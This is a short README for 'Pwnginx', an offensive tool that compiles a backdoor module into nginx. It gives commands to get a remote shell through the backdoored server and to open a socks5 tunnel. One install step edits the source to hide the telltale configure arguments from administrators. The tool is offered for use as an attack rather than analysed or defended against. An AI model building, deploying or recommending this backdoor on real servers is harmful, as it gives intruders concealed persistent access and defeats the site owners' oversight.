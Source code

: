 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get a shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [socks5ip] [socks5port]


###INSTALL:

* Compile the client:

    cd client;make

* Recompile the nginx:

    cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module

* Edit source to hidden configure arguments:

    grep 'configure arguments' * -R -n

###TODO:

* HTTP tunnel

